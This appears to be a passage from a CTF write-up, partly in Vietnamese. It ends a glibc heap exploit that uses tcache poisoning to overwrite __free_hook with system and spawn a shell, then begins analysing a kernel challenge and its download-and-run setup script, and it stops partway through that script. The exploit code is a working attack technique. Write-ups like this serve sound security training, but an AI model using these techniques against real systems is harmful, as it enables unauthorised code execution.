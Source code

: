 ```python
    edit(p64(heap_leak + 0x700), 0)
    add()
    add()
    edit(p64(0) + p64(0x21) + p64(0) * 3 + p64(0x421), 20)
    free(0)
    edit(b"a" * 9, 0)
    free(0)
    edit(p64(heap_leak + 0x2F0), 0)
    input("wait")
    add()
    add()
    free(21)
    add()
    input("wtf")
    show(21)  # 0x1ecfd0
    libc.address = u64(r(6).ljust(8, b"\x00")) - 0x1ECFD0
    logbase()
    free(0)
    edit(b"a" * 9, 0)
    free(0)
    edit(p64(libc.sym.__free_hook), 0)
    add()
    input("wait")
    add()
    edit(b"/bin/sh\x00", 1)
    edit(p64(libc.sym.system), 22)
    free(1)

    interactive()
```

## The jumps 


### analys
- đề cho 2 folder `provide_to_user` và `provide_to_user_fix` 

check setup qemu thì ta thấy nó sẽ bắt ta nhập 1 link và tải về và thay đổi name -> `exploit` và set quyền cho file này , nói chung cái này để lấy flag thôi

nhìn qua thì các mitigation ở bài này sẽ là `smep`, `smap` ,  `kpti`

```c
❯ cat run.sh
#!/bin/bash


read -p "Enter the link to your exploit binary: " link

wget $link -O exploit
chmod 777 ./exploit
sleep 1

cp ./exploit ./fs/exploit
pushd fs
find . -print0 | cpio --null -ov --format=newc | gzip -9 > ../initramfs.cpio.gz
popd



qemu-system-x86_64 \
    -snapshot \
    -kernel /home/ctf/bzImage \
    -smp cores=1,threads=1 \
```